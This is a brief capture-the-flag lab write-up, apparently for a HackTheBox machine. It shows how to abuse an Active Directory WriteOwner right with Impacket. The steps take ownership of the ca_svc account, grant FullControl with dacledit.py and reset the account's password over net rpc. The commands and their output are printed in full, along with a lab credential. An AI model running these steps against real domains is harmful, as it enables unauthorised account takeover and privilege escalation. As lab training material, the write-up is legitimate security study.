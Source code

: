 # Using `impacket`

## Abusing `WriteOwner` with `owneredit.py`

Here I'm using Impacket to abuse `WriteOwner` to take over the `ca_svc` account.

 First, I'll use `owneredit.py` to modify `OwnerSid` to the account I control:

```console
$ owneredit.py -action write -new-owner ryan -target ca_svc sequel/ryan:WqSZAF6CysDQbGb3 -dc-ip 10.10.11.51
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Current owner information below
[*] - SID: S-1-5-21-548670397-972687484-3496335370-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=sequel,DC=htb
[*] OwnerSid modified successfully!
(venv)
```

Then I can set `FullControl` rights:

```console
$ dacledit.py -action write -rights FullControl -principal ryan -target ca_svc sequel/ryan:WqSZAF6CysDQbGb3 -dc-ip 10.10.11.51
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] DACL backed up to dacledit-20250121-141410.bak
[*] DACL modified successfully!
(venv)
```

Now I can change the account's password, among other things:

```console
$ net rpc password ca_svc password123 -U sequel/ryan%WqSZAF6CysDQbGb3 -S sequel.htb
(venv)
```
